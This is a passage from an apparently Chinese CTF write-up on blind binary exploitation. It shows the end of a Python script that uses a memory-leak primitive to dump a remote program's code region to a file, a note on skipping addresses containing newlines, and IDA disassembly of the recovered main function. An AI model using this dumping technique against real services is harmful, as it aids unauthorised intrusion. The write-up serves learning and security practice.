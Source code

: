 ```python
            return data
        except Exception:
            num += 1
            continue
    return None

def getbinary():
	addr = 0x400000
	f = open('binary', 'w')
	while addr < 0x401000:
		data = leak(addr)
		if data is None:
			f.write('\xff')
			addr += 1
		elif len(data) == 0:
			f.write('\x00')
			addr += 1
		else:
			f.write(data)
			addr += len(data)
	f.close()
getbinary()
```

需要注意的是，在payload中需要判断是否有'\n'出现，因为这样会导致源程序只读取前面的内容，而没有办法泄露内存，所以需要跳过这样的地址。

#### 分析binary

利用ida打开泄露的binary，改变程序基地址，然后简单看看，可以基本确定源程序main函数的地址

```asm
seg000:00000000004005F6                 push    rbp
seg000:00000000004005F7                 mov     rbp, rsp
seg000:00000000004005FA                 add     rsp, 0FFFFFFFFFFFFFF80h
seg000:00000000004005FE
seg000:00000000004005FE loc_4005FE:                             ; CODE XREF: seg000:0000000000400639j
seg000:00000000004005FE                 lea     rax, [rbp-80h]
seg000:0000000000400602                 mov     edx, 80h ; '€'
seg000:0000000000400607                 mov     rsi, rax
seg000:000000000040060A                 mov     edi, 0
seg000:000000000040060F                 mov     eax, 0
seg000:0000000000400614                 call    sub_4004C0
seg000:0000000000400619                 lea     rax, [rbp-80h]
seg000:000000000040061D                 mov     rdi, rax
seg000:0000000000400620                 mov     eax, 0
seg000:0000000000400625                 call    sub_4004B0
seg000:000000000040062A                 mov     rax, cs:601048h
seg000:0000000000400631                 mov     rdi, rax
seg000:0000000000400634                 call    near ptr unk_4004E0
seg000:0000000000400639                 jmp     short loc_4005FE
```
